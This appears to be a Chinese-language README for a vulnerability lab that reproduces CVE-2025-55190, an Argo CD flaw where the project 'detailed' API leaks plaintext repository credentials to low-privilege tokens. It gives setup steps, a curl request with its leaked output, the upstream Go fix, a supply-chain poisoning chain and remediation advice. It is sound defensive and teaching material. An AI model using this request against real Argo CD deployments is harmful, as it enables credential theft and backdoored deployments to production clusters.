



# Argo CD 项目 API Token 泄露仓库凭据 (CVE-2025-55190)

[English version](README.md)

Argo CD 是 Kubernetes 上广泛使用的 GitOps 持续交付工具，它使用项目范围的 API Token 来驱动 CI 流水线里的自动化操作，例如 `argocd app sync`。

CVE-2025-55190（GitHub 安全公告 GHSA-786q-9hcg-v9ff，2025 年 9 月 4 日披露）是项目详情接口上的访问控制缺陷：

```
GET /api/v1/projects/{project}/detailed
```

该接口在序列化响应时，把项目关联的全部 Repository 信息（包括明文 `username` 和 `password`）一起返回，没有对 `repositories, get` 权限进行二次校验，也没有对密钥字段做脱敏。结果是任何仅持有 `projects, get` 权限的 Token 或用户——这是低权限自动化角色通常会被赋予的权限——都能读到该项目下所有 Git/Helm 仓库的凭据。

因为 Argo CD 关联的仓库凭据通常是长期有效、具有写入权限的 PAT 或部署密钥，本漏洞可被进一步利用为完整的 GitOps 供应链投毒攻击链：攻击者拿到凭据后向 GitOps 仓库注入恶意 manifest，下一次 Argo CD 同步即可把后门部署到生产集群。

影响版本：

- `>= 2.2.0-rc1`（`/detailed` 接口在 2.2 中引入，自此一直存在该缺陷）
- 修复版本：**v2.13.9**、**v2.14.16**、**v3.0.14**、**v3.1.2**

本环境使用 Argo CD **v2.14.15**——v2.14 分支上最后一个未修复的版本。

参考链接：

- <https://github.com/argoproj/argo-cd/security/advisories/GHSA-786q-9hcg-v9ff>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-55190>
- <https://www.upwind.io/feed/cve-2025-55190-argo-cd-project-api-token-exposes-repository-credentials>

## 环境搭建

Argo CD 是 Kubernetes 原生应用，本实验在容器内运行单节点 k3s 集群。容器首次启动时，会在内部执行一段 bootstrap 脚本完成以下事项：

- 部署 Argo CD v2.14.15
- 创建名为 `myproject` 的 `AppProject`
- 挂载一个携带凭据 `vulhub-bot / s3cr3t-helm-pass-2025` 的 Helm 仓库
- 为 `project-automation-role` 颁发一枚 JWT；该角色只被授予 `applications, get` 与 `applications, sync`，**没有任何 `repositories` 权限**

启动环境：

```
docker compose up -d
```

首次启动会在容器内执行 bootstrap，安装 Argo CD、创建示例项目、挂载 Helm 仓库、并颁发 JWT。bootstrap 会从 `raw.githubusercontent.com` 拉取 Argo CD v2.14.15 的官方安装 manifest（这样仓库里就不需要保存上游那个 ~26000 行的 CRD bundle），然后 k3s 内嵌的 containerd 会拉取 Argo CD 镜像（合计 ~260 MB，主要是 `quay.io/argoproj/argocd`）。**首次 bootstrap 在网络较快的情况下约 2-4 分钟**；如果你的网络访问 `quay.io` 或 `raw.githubusercontent.com` 较慢，会更长一些。之后同一个容器的重启约 90 秒（镜像在 `/var/lib/rancher/k3s` 下有缓存）。

等待 bootstrap 完成：

```
until docker compose exec k3s test -f /var/lib/vulhub-argocd/initialized; do sleep 5; done
```

也可以直接观察进度：

```
docker compose logs -f k3s
```

bootstrap 完成后，Argo CD UI 地址：`https://127.0.0.1:30443`（自签名证书，浏览器需要接受证书警告）。如需在 UI 中查看项目结构，可从容器内的 `/etc/argocd-admin-password` 读取 admin 密码。

## 漏洞复现

读取预生成的低权限 Token：

```
TOKEN=$(docker compose exec k3s cat /etc/argocd-demo-token)
echo "$TOKEN"
```

该 Token 在 `myproject` 项目上实际拥有的权限只有 `applications, get` 与 `applications, sync`，**完全没有** `repositories, get`，按正常的访问控制模型它根本不应该读到任何仓库凭据。

请求漏洞接口：

```
curl -sk -H "Authorization: Bearer $TOKEN" \
  https://127.0.0.1:30443/api/v1/projects/myproject/detailed | jq '.repositories'
```

响应中会出现明文凭据：

```json
[
  {
    "repo": "https://charts.example.invalid",
    "username": "vulhub-bot",
    "password": "s3cr3t-helm-pass-2025",
    "type": "helm",
    "name": "test-helm-repo",
    "project": "myproject"
  }
]
```

作为对照，标准 `repositories` 接口会按 RBAC 过滤掉调用者无权访问的仓库，对同一个 Token 返回空列表：

```
curl -sk -H "Authorization: Bearer $TOKEN" \
  https://127.0.0.1:30443/api/v1/repositories
# {"metadata":{},"items":null}
```

两个接口对同一身份的处理形成鲜明对比，正是漏洞的本质：标准接口告诉你"你看不到任何仓库"，而 `/detailed` 聚合接口直接把每个仓库的 username 和 password 明文递给你。

## 通过 UI 交叉验证（可选）

你可以用管理员身份登录，亲眼看一下"漏洞接口绕过了什么样的访问控制模型"。

读取自动生成的 admin 密码（每次启动都是新的随机字符串，你看到的不会和这里一样）：

```
$ docker compose exec k3s cat /etc/argocd-admin-password
8hBxtTEsgSf2Qs45
```

浏览器打开 `https://127.0.0.1:30443`（接受自签名证书警告），用户名 `admin`，密码用上面读到的那一行登录。



登录后依次查看：

- **Settings → Repositories** —— 列表里能看到 `test-helm-repo` 条目，type=helm、project=myproject、URL 是 `https://charts.example.invalid`。CONNECTION STATUS 列会显示 `Failed`，这是预期现象：`.invalid` 是 RFC 2606 保留的不可解析 TLD。**这个连接失败与漏洞无关**——即使仓库根本连不上，漏洞接口照样会泄露密码。



- 点击该行右侧的 **⋮** 菜单 → **Edit / Connect Repo using HTTPS**。详细弹窗里 `Username` 显示为明文 `vulhub-bot`（用户名按元数据处理），但 `Password` 字段是遮码圆点。这就是 Argo CD UI **设计上**给即使是完整管理员看到的：告诉你凭据存在，但不直接把明文递给你。
- **Settings → Projects → `myproject` → Roles → `project-automation-role`** —— 确认该角色的策略只有 `applications, get`、`applications, sync` 和 `applications, action/...` 三类，**完全不包含任何 `repositories` 权限**。



然后再对照：低权限的项目 token 通过 `/api/v1/projects/myproject/detailed` 读到的，正是管理员自己在 UI 里都看不到明文的那个密码。

## 漏洞的引入与修复

漏洞接口在 Argo CD **v2.2.0**（2021-12-14 发布）引入，一直存在到 **2025-09-04** 才修复——**漏洞窗口约 3 年 9 个月**，覆盖了 v2.2 之后所有 Argo CD 生产部署。

修复在 `master` 分支由 [argoproj/argo-cd#24387](https://github.com/argoproj/argo-cd/pull/24387) 落地，并 cherry-pick 到所有在维护分支（[#24391](https://github.com/argoproj/argo-cd/pull/24391) → release-3.1、[#24390](https://github.com/argoproj/argo-cd/pull/24390) → release-3.0、[#24389](https://github.com/argoproj/argo-cd/pull/24389) → release-2.14、[#24388](https://github.com/argoproj/argo-cd/pull/24388) → release-2.13），甚至连**已 EOL 的 release-2.10 / 2.11 / 2.12 分支也被回补**（[#24462](https://github.com/argoproj/argo-cd/pull/24462)、[#24463](https://github.com/argoproj/argo-cd/pull/24463)、[#24461](https://github.com/argoproj/argo-cd/pull/24461)）—— 这点很能说明上游对该漏洞的重视程度。`server/project/project.go` 里的关键改动其实只有几行——返回前对每个 repository 和 cluster 都走一遍脱敏：

```go
// 修复前（存在漏洞）：
return &project.DetailedProjectsResponse{
    Repositories: repositories,   // 原始数据，含 username + password
    Clusters:     clusters,       // 原始数据，含 AWS auth + TLS 证书
}, err

// 修复后：
var apiRepos []*v1alpha1.Repository
for _, repo := range repositories {
    apiRepos = append(apiRepos, repo.Normalize().Sanitized())
}
var apiClusters []*v1alpha1.Cluster
for _, cluster := range clusters {
    apiClusters = append(apiClusters, cluster.Sanitized())
}
return &project.DetailedProjectsResponse{
    Repositories: apiRepos,
    Clusters:     apiClusters,
}, err
```

补丁同时收紧了 `Repository.Sanitized()`——把原本保留的 `Username` 字段也去掉了（用户名单独泄露在凭据撞库攻击里也有用）；并新增了 `Cluster.Sanitized()` 方法，剥离 `AWSAuthConfig`、kubeconfig 中的 TLS 客户端证书/密钥、Bearer Token 等敏感字段，只保留集群元数据。

需要注意：**这同一个 PR 同时静默修复了一个未在 GHSA-786q-9hcg-v9ff 中公开的 cluster 凭据泄露**。运行 Argo CD 对接 AWS EKS 或带 bearer-token kubeconfig 的自建集群的运维者，应把补丁发布前所有的 `/detailed` 调用同时视为 AWS Auth/kubeconfig 泄露事件，而不只是仓库凭据泄露。

## 实际危害

被泄露的凭据通常是**长期有效、带写入权限**的 PAT 或部署密钥，它们指向 GitOps 源仓库。攻击者一旦拿到一枚低权限 Argo CD token（CI Runner、定时任务、自动化密钥），就能：

1. 调用 `/api/v1/projects/{proj}/detailed` 把该项目下所有仓库凭据一次性导出
2. 向 GitOps 源仓库 push 一个带后门的 manifest
3. 等 Argo CD 下次同步——后门自动部署到目标 Kubernetes 集群

这把"一枚低权限 token 泄露"放大成了**完整的 GitOps 供应链投毒**——相当于生产 Kubernetes 集群上的间接 RCE，且因为变更"走的是正常 GitOps 流程"，在 commit 历史里看起来完全合法、极难事后审计。

## 补丁

Argo CD v2.13.9、v2.14.16、v3.0.14、v3.1.2 起，`/api/v1/projects/{project}/detailed` 在序列化每个 Repository 和 Cluster 时都会走一次脱敏，过滤掉调用者无权读取的密钥字段。无法立即升级的运维者**至少应当**：审计所有带 `projects, get` 权限（包括全局通配规则）的 token，并基于"凭据已泄露"的假设轮换所有 Argo CD 关联仓库的凭据。
